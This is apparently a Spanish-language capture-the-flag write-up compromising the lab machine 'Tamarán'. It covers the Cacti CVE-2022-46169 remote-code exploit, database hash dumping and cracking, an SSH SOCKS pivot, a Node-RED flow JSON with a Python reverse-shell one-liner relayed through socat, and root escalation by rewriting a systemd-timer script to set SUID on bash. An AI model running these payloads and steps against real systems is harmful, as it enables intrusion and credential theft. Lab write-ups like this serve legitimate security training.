



## Table of contents

## Enumeración

La máquina Tamarán tiene la ip **10.0.2.5**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.0.2.5

Host is up (0.00031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u9 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-title: Tamar\xC3\xA1n M\xC3\xB3vil \xE2\x80\x94 Telecomunicaciones para las ocho islas
|_http-server-header: Apache/2.4.66 (Debian)
```
 
### Puerto 80 (Web)

Accedemos con el navegador y nos encontramos con una web de una compañía de telecomunicaciones canaria.


Vamos a enumerar subdirectorios utilizando **ffuf**.

```bash
ffuf -c -u "http://10.0.2.5/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.5/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cacti                   [Status: 301, Size: 344, Words: 21, Lines: 10, Duration: 28ms]
```

Encontramos un subdirectorio **cacti**, accedemos a él y vemos un **Cacti 1.2.22**.



## Explotación
### CVE-2022-46169 RCE

Esta versión tiene reportado el **CVE-2022-46169** que permite un **Remote Command Execution** (**RCE**).

Empleamos **searchsploit** para buscar el exploit, descargarlo y renombrarlo con su identificador.

```bash
searchsploit cacti 1.2.22
----------------------------------------------------------------------------------
 Exploit Title                                            |  Path
----------------------------------------------------------------------------------
Cacti v1.2.22 - Remote Command Execution (RCE)            | php/webapps/51166.py
----------------------------------------------------------------------------------

searchsploit -m php/webapps/51166.py

mv 51166.py CVE-2022-46169.py
```

Para que funcione debemos de realizar dos ajustes:

- Cambiar proxies por proxy en:
```python
self.session = httpx.Client(headers={"User-Agent": self.random_user_agent()},verify=False,proxies=proxy)
```

- Cambiar f'{local_cacti_ip}' por '127.0.0.1' en: 
```python
 headers = {
            'X-Forwarded-For': f'{local_cacti_ip}'
        }
```

Una vez hecho, nos ponemos en escucha en nuestra máquina con **netcat** y ejecutamos el exploit, el cual nos enviará una reverse shell.

```bash
nc -nlvp 4444
```

```bash
python3 CVE-2022-46169.py -u "http://10.0.2.5/cacti" -i 10.0.2.15 -p 4444
```

Entramos al servidor como el usuario **wwww-data**.

## Movimiento Lateral
### Acaymo

Dentro del directorio del cacti encontramos las credenciales del servicio de **mysql**, el cual se está ejecutando.

```bash
www-data@bentayga:/$ cat /var/www/html/cacti/include/config.php
...
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'R0qU3_nUB701717';
$database_port     = '3306';
...
``` 

Nos conectamos al servicio con ellas y listamos las tablas dentro de la base de datos de cacti.

```bash
www-data@bentayga:/$ mysql -u cactiuser -p
Enter password: 

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+
3 rows in set (0.001 sec)

MariaDB [(none)]> use cacti;
Database changed
MariaDB [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| ...                                 |
| user_auth                           |
| ...                             |
+-------------------------------------+
111 rows in set (0.001 sec)

MariaDB [cacti]> select username,password from user_auth;
+-----------+--------------------------------------------------------------+
| username  | password                                                     |
+-----------+--------------------------------------------------------------+
| admin     | $2y$10$dw6r1Gu9P8GqpOn0PpwDxeuBEuXDUFlwjvlPBd2LuIfa9bXNIDb6. |
| guest     | 43e9a4ab75570f5b                                             |
| acaymo    | $2y$10$wMZWxiWmWDuCEZRpkoo2kuozexgGwBkdhPUtfPkbgNTfPuuwRIZ72 |
| rayco     | $2y$10$C2Bjum/lt00.z23nii/jXOXZnb5LTDXDH1mP9BQIzKAw5w/PVdNvq |
| guacimara | $2y$10$aEbfG/uO/UAbFDYdbWhYC.rzpk2BE0KrfvYPZ.Rg5xDQCxHjJyI7. |
| chaxiraxi | $2y$10$f6.BkJfFkFqkAMSPgaX2RedOQejgrh0B3JjC0tYRDresSsiwX1DkG |
| dailos    | $2y$10$tJRqVVE2OTbyuwjRmlFRpOA0cj6nH.MBwVYE1k8Q.JtXzynAhLnKa |
| idaira    | $2y$10$KfLfTyQOq/GUUTzmwR/2TeV3RwO0.uSglDrx.DK2DviwJI4CehNDC |
| tinguaro  | $2y$10$gnbgda9GD8Bd9ppIRGy9OuRWxylnWnkLX8c/tPZ6jg8.WPgo/Zpfy |
+-----------+--------------------------------------------------------------+
9 rows in set (0,001 sec)
```

Ya que en el servidor existe un usuario **acaymo** vamos a tratar de romper el hash de su contraseña utilizando **John The Ripper** y el **rockyou.txt**.

```bash 
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

zxcvbnm1  
```

Obtenemos la contraseña de **acaymo** y nos conectamos al servicio **ssh**.

```bash
ssh acaymo@10.0.2.5

acaymo@bentayga:~$ ls -la
-rw------- 1 acaymo acaymo 24193 sep 12 13:18  .bash_history
-rw-r--r-- 1 acaymo acaymo   220 abr 23  2023  .bash_logout
-rw-r--r-- 1 acaymo acaymo  3526 abr 23  2023  .bashrc
drwxr-xr-x 3 acaymo acaymo  4096 sep 12 11:44  .local
-rw-r----- 1 acaymo acaymo   337 ago 17 15:10  nota-guacimara.txt
-rw-r--r-- 1 acaymo acaymo   807 abr 23  2023  .profile
drwx------ 2 acaymo acaymo  4096 ago 20 20:02  .ssh
-rwxr-x--x 1 acaymo acaymo 12689 ago 17 15:08  TamaranAlertas-v1.4.2-debug.apk
-rw-r----- 1 acaymo acaymo    29 ago 17 10:11  user.txt
```

### svc_alertas

En el directorio de acaymo tenemos un archivo **TamaranAlertas-v1.4.2-debug.apk** que nos pasamos a nuestro equipo y descomprimimos con **unzip**.

```bash
unzip TamaranAlertas-v1.4.2-debug.apk
Archive:  TamaranAlertas-v1.4.2-debug.apk
  inflating: AndroidManifest.xml     
 extracting: resources.arsc          
  inflating: classes.dex             
  inflating: META-INF/TAMARAN.SF     
  inflating: META-INF/TAMARAN.RSA    
  inflating: META-INF/MANIFEST.MF
```

Revisamos las cadenas de texto legibles de **resources.arsc**

```bash
strings resources.arsc
Tamar
n Alertas
1.4.2-debug
tirajana.tamaran.thl
1880
svc_alertas
S4nt4M4r14D3Gu14
Conectado al backend de alertas
//No se pudo conectar. Revise la VPN corporativa.
...
```

Tenemos un usuario **svc_alertas** y lo que parece ser su contraseña **S4nt4M4r14D3Gu14**

Si revisamos el **.bash_history** de acaymo encontramos dos ejecuciones muy intersantes.

- Tenemos el contenido de un archivo json malicioso que envía una reverse shell a este servidor a su puerto 4444.
- Una petición con curl mediante un token a un dominio que ejecuta ese json malicioso.

Revisando el **/etc/hosts** vemos la ip del dominino mencionado en el historial, **tirajana.tamaran.thl**

```bash
acaymo@bentayga:~$ cat /etc/hosts
127.0.0.1       bentayga localhost
127.0.1.1       bentayga.tamaran.thl bentayga

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

# Red interna corporativa
10.0.4.33   bentayga-lan.tamaran.thl
10.0.4.21   tirajana.tamaran.thl tirajana
```

Esta ip pertenece a otro servidor al cual desde nuestra máquina no tenemos acceso pero este servidor sí.

Por lo tanto, vamos a crear un túnel SSH para poder ver el contenido de ese dominio pero primero, añadimos el dominio y la ip a nuestro **/etc/hosts**.

```bash
echo '10.0.2.5 tirajana.tamaran.thl' | sudo tee -a /etc/hosts
```

Una vez hecho, nos vamos al archivo **/etc/proxychains**, comentamos los socks que tengamos y al final añadimos `socks5 127.0.0.1 9050`

Ahora, establecemos un túnel SSH empleando el socks5 creado en el puerto 9050, lo que nos permite acceder al dominio del nuevo servidor a través de proxychains4.

```bash
ssh acaymo@10.0.2.5 -D 9050
```

Ejecutamos proxychains4 con firefox y accedemos con el navegador al dominio tirajana.tamaran.thl

```bash
proxychains4 -q firefox
```



La web es un node-red, una herramienta visual basada en flujos, nos pide autenticarnos, así que empleamos las credenciales de **svc_alertas** obtenidas anteriormente.

Ya que el curl del historial empleaba un token vamos a obtener el nuestro. Para ello, una vez autenticados en la web, accedemos a las opciones de desarrollo pulsando F12 > Storage > Local Storage y copiamos el valor del Bearer Token.



Guardamos este bearer en un archivo dentro del servidor.

```bash
acaymo@bentayga:~$ echo "r5IgF9556T1OopT8ML+opPjbS1sIDrLvtA2t3AEjVFMji9IZecrnF4kebf298BWR4qWemBL1G/rMdZ/KcGBMX8ZKsjgGG26+pd0gMR7FhZdnJI7QEfozKh2B0oOeXBTawNLAi0Ts++Cka0HKdCaI/iSpyfAlrxkd5BK81uCtwvY=" > bearer.txt 
```

Hecho esto, creamos el archivo json malicioso en el directorio **tmp** empleando el contenido del **.bash_history**, este archivo enviará una reverse shell al puerto 4444 del servidor de acaymo.

```bash
cat > /tmp/evil_flow.json << 'EOF'
[
  {
    "id": "evil_tab",
    "type": "tab",
    "label": "Evil",
    "disabled": false,
    "info": ""
  },
  {
    "id": "evil_inject",
    "type": "inject",
    "z": "evil_tab",
    "name": "",
    "props": [{"p":"payload"}],
    "repeat": "",
    "crontab": "",
    "once": true,
    "onceDelay": 0.1,
    "topic": "",
    "payload": "",
    "payloadType": "date",
    "x": 150,
    "y": 100,
    "wires": [["evil_exec"]]
  },
  {
    "id": "evil_exec",
    "type": "exec",
    "z": "evil_tab",
    "command": "python3",
    "addpay": false,
    "append": "-c 'import socket,subprocess,os,pty;s=socket.socket();s.connect((\"10.0.4.33\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")'",
    "useSpawn": false,
    "timer": "",
    "oldrc": false,
    "name": "",
    "x": 350,
    "y": 100,
    "wires": [[],[],[]]
  }
]
EOF
```

Ya lo tenemos casi todo listo, el problema que nos queda solucionar es que la reverse shell desde este nuevo servidor llegará al servidor donde se encuentra el usuario acaymo, así que tenemos que redirigirla hacia nuestra máquina. Como dicho servidor tiene instalado socat, vamos a emplearlo para hacer que las conexiones entrantes a su puerto 4444 sean enviadas a nuestro puerto 4444. 

```bash
acaymo@bentayga:~$ socat tcp-listen:4444,fork tcp:10.0.2.15:4444 &
[1] 1644
```

Solo nos queda ponernos en escucha con **netcat** en nuestra máquina y ejecutar el curl con el nuevo bearer y el json malicioso.

```bash
nc -nlvp 4444
```

```bash
acaymo@bentayga:~$ curl -s -X POST -H "Authorization: Bearer $(cat bearer.txt)" \
-H "Content-Type: application/json" -d @/tmp/evil_flow.json \
http://tirajana.tamaran.thl:1880/flows
```

Recibimos la shell como el usuario **svc_alertas** situado en el nuevo servidor.

```bash
svc_alertas@tirajana:~$ id
uid=999(svc_alertas) gid=997(svc_alertas) grupos=997(svc_alertas)
```

## Escalada de Privilegios
### Root

Este usuario tiene todos los permisos sobre el directorio **/opt/alertas** y en él encontramos un script de bash cuyo propietario es root.

```bash
svc_alertas@tirajana:~$ ls -la /opt/alertas/
total 12
drwxr-xr-x 2 svc_alertas svc_alertas 4096 ago 18 14:33 .
drwxr-xr-x 4 root        root        4096 ago 18 14:32 ..
-rwxr-xr-x 1 root        root         364 ago 18 14:33 backup-flows.sh
```

Revisando el directorio de **/etc/systemd/system** vemos un servicio que se encarga de ejecutar dicho script. Además, inspeccionando su archivo timer vemos que se ejecuta cada 2 minutos. Como no se especifica usuario es ejecutado por root.

```bash
svc_alertas@tirajana:~$ cat /etc/systemd/system/backup-alertas.service 
[Unit]
Description=Respaldo de configuracion de la plataforma de alertas
[Service]
Type=oneshot
ExecStart=/opt/alertas/backup-flows.sh

svc_alertas@tirajana:~$ cat /etc/systemd/system/backup-alertas.timer 
[Unit]
Description=Respaldo periodico de flujos de alertas
[Timer]
OnBootSec=2min
OnUnitActiveSec=2min
Unit=backup-alertas.service
[Install]
WantedBy=timers.target
```

Por lo tanto, vamos a borrar **backup-flows.sh** y a crear un nuevo script que le otorgue permisos **SUID** a la bash. Al ser root quien ejecuta el script, la operación ocurrirá con éxito.

```bash
svc_alertas@tirajana:~$ rm /opt/alertas/backup-flows.sh 
svc_alertas@tirajana:~$ echo -e '#!/bin/bash\n chmod u+s /bin/bash' > /opt/alertas/backup-flows.sh 
svc_alertas@tirajana:~$ chmod +x /opt/alertas/backup-flows.sh
```

Ahora nos toca esperar a que se ejecute el servicio para lanzarnos una bash privilegiada.

```bash
svc_alertas@tirajana:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 sep  7  2025 /bin/bash

svc_alertas@tirajana:~$ bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root/
total 24
drwx------  3 root root 4096 ago 26 11:55 .
drwxr-xr-x 18 root root 4096 ago 26 11:57 ..
-rw-------  1 root root    0 ago 26 11:54 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rwxrwxrwx  1 root root   28 ago 18 14:35 root.txt
drwx------  2 root root 4096 oct 16  2024 .ssh
```